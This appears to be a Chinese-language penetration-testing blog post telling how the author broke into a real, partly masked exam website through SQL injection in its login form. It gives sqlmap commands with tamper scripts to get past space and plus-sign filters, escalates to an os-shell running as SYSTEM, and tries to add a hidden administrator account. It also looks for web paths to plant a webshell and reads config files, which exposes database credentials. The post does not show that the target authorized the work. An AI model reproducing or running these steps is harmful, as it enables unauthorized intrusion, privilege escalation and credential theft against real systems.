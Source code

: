```yaml
---
draft: false
isCJKLanguage: true
date: 2020-06-22 17:35:07
title: 记一次 SQL 注入简单 bypass
description: 注入 bypass
categories: 
  - Pentest
tags:
  - injection
---
```



### 0x00 存在 SQL 注入
总之是遇到一个站，登录的页面，数据包大致如下：
```
POST /jsweb/userlogin/UserLoginAction.aspx HTTP/1.1
Host: 115.xxx.xxx.xxx:8042
Content-Length: 47
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.106 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://115.xxx.xxx.xxx:8042
Referer: http://115.xxx.xxx.xxx:8042/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: ASP.NET_SessionId=bxdzehxa5mvoco1fkrjlbqbt
Connection: close

uname=admin*&pwd=dskfsdkf&valCode=1197&telphone=
```

其中验证码可以绕过，而登录名那里存在注入
![](/img/post/Xnip2020-09-13_22-20-51.jpg)
![](/img/post/Xnip2020-09-13_22-21-32.jpg)

使用 and 1=1、and 1=2 时，发现过滤了空格，用/**/代替
![60](/img/post/Xnip2020-09-13_22-30-08.jpg)
![60](/img/post/Xnip2020-09-13_22-30-34.jpg)

### 0x01 简单看一下

中间件是 IIS，存在 len 函数，确定为 SQLServer
![60](/img/post/Xnip2020-09-13_22-33-36.jpg)

Order by 一下，看看能不能 union，发现有 10 列
![60](/img/post/Xnip2020-09-13_22-34-56.jpg)

尝试 union select
![80](/img/post/Xnip2020-09-13_22-40-54.jpg)

admin 转换为 int 时出错，感觉好像能显示位，测试发现确实可以显示
![80](/img/post/Xnip2020-09-13_22-41-55.jpg)

可以获取数据库版本，可以确定有 union 注入了
![](/img/post/Xnip2020-09-13_22-42-59.jpg)

### 0x02 sqlmap
```sqlmap跑一下：sqlmap --risk=3 --level=3 --batch --thread=1 -r 1.txt --dbms="mssql" --random-agent --prefix="'" --suffix="--" --tamper=space2comment```
![](/img/post/Xnip2020-09-13_22-45-24.jpg)

比较奇怪，手工的时候可以 union 的，先看看 boolean-based 获取数据吧

-\-current-db 倒是能获取到数据库名为 ExamDataP_2019，但是获取表名的时候就返回空了

```sqlmap --risk=3 --level=3 --batch --thread=1 -r 1.txt --dbms="mssql" --random-agent --prefix="'" --suffix="--" --tamper=space2comment -D ExamDataP_2019 --tables```
![](/img/post/Xnip2020-09-13_22-46-35.jpg)

能判断出来有注入，手工测试 and 1=1 时可以，测试 union 也可以，看来确实有过滤

### 0x03 探测过滤
看看过滤了啥，union 比较快，就用 union、-v 5 看下 payload

```sqlmap --risk=3 --level=3 --batch --thread=1 -r 1.txt --dbms="mssql" --random-agent --prefix="'" --suffix="--" --tamper=space2comment --technique=U --current-db -v 5```

直接拿最后一个 payload 测试下
![](/img/post/Xnip2020-09-13_23-05-33.jpg)

提示 98 附近有错误
![80](/img/post/Xnip2020-09-13_23-06-19.jpg)

感觉像过滤了char之类的函数，char 移到显示位，测一下

发现有加号的时候出错，没有的时候就没问题，可能是处理加号了
![80](/img/post/Xnip2020-09-13_23-07-17.jpg)
![80](/img/post/Xnip2020-09-13_23-08-12.jpg)

移到显示位测了下，确实处理加号了，替换为空了
![80](/img/post/Xnip2020-09-13_23-08-59.jpg)

### 0x04 tamper
去网上找了能替换加号的，没有找到相关信息，后来想着 sqlmap 的 tamper 会不会有，结果还真有
![](/img/post/Xnip2020-09-13_23-09-50.jpg)

有两个 tamper，一个是适用 2012 的，一个是 2008 的，我们这里的数据库是 08 的，用 plus2fnconcat.py 这个，可以判断出来数据库了

```sqlmap --risk=3 --level=3 --batch --thread=1 -r 1.txt --dbms="mssql" --random-agent --prefix="'" --suffix="--" --tamper=space2comment,plus2fnconcat --technique=U --current-db```
![](/img/post/Xnip2020-09-13_23-10-55.jpg)

Emmmmm，可以获取数据库表，但是获取表的列名时依然不返回数据
![](/img/post/Xnip2020-09-13_23-12-12.jpg)

### 0x05 再次探测过滤
同样 -v 3 看 payload，然后测试
![](/img/post/Xnip2020-09-13_23-13-06.jpg)

有语法错误，估计又是那个被替换为空了，慢慢试。。。

看了下语句，涉及到的也就是 union、select、concat、cast、from、syscolumns、sysobjects、where、and 这些个可能被过滤的，union、select 没问题，前面测试过了，剩下的被处理的关键字感觉大概率是 from、and。。。。
![70](/img/post/Xnip2020-09-13_23-13-59.jpg)

语法错误。。。应该就是 from 了。能报错，还是想法报错到显示位

emmmm，感觉好像没有哪里过滤。。。但就是有语法错误。。。
![](/img/post/Xnip2020-09-13_23-14-57.jpg)

网上查了下，其实前面的 from 出错是因为表的原因，from 1，没有 1 这个表，所以出错。。。。。

sqlserver 和 mysql 不一样，还是用的少。。。
![90](/img/post/Xnip2020-09-13_23-15-38.jpg)

但是再次找个 pyaload 尝试依然有问题，不返回数据
![70](/img/post/Xnip2020-09-13_23-16-39.jpg)

同样的语句本地测试是可以返回数据的，费解
![80](/img/post/Xnip2020-09-13_23-17-18.jpg)


### 0x06 os-shell
实在没法了，-\-is-dba 为 True，直接 -\-os-shell
```sqlmap --risk=3 --level=3 --batch --thread=1 -r 1.txt --dbms="mssql" --random-agent --prefix="'" --suffix="--" --tamper=space2comment,plus2fnconcat --os-shell```
![](/img/post/Xnip2020-09-13_23-18-11.jpg)

emmmmmm，system，啥都不说了。。。。。
![90](/img/post/Xnip2020-09-13_23-19-19.jpg)

看下端口
![70](/img/post/Xnip2020-09-13_23-19-55.jpg)

添加用户不行，卡死，估计是被拦截了
```net user Guest1 Aa123456. /add & net localgroup administrators Guest1 /add & net user Guest1 /active:yes```
![](/img/post/Xnip2020-09-13_23-20-30.jpg)

看了下 tasklist，有 360，先传个 shell 吧，方便后续渗透

找路径: ```dir /s /b e:\"username.jpg"```
![70](/img/post/Xnip2020-09-13_23-21-31.jpg)

通过 echo 写 txt 判断路径，试了几个都不是，写中文路径提示不存在。。。。。
![](/img/post/Xnip2020-09-13_23-22-51.jpg)

本来网上查可以用 bat 写中文路径文件，用了 certutil、bitsadmin、powershell 都没有下载成功

看下有没有不是不包含中文的 web 路径: ```type C:\Windows\System32\inetsrv\config\applicationHost.config```

发现 80 端口路径为 c:\inetpub\wwwroot\
![85](/img/post/Xnip2020-09-13_23-23-33.jpg)

写一句话: 
![](/img/post/Xnip2020-09-13_23-24-28.jpg)

访问后出错
![70](/img/post/Xnip2020-09-13_23-25-10.jpg)

后续测试发现通过浏览器写中文名的话可以，创建了文件 9d.txt，证明网站路径就是 e:\江xxxx网站\JsWeb\
![90](/img/post/Xnip2020-09-13_23-26-00.jpg)

现在的话就知道了目标的绝对路径为 e:\江xxxx网站\JsWeb\，同时目标的 80 端口的绝对路径为 c:\inetpub\wwwroot\

PS: 由于当时有别的事，没有继续向下做，其实还可以数据库备份 shell 到网站目录，后续也见到了一个不会出现 "/" 应用程序中的服务错误的 webshell

### 0x07 找数据库信息
找 Web.config，```dir /s /b e:\"Web.config"，type e:\b2cexam\web.config```
获取到一个数据库用户名密码user id=kw;password=123456;
![](/img/post/Xnip2020-09-13_23-27-23.jpg)
![](/img/post/Xnip2020-09-13_23-29-21.jpg)
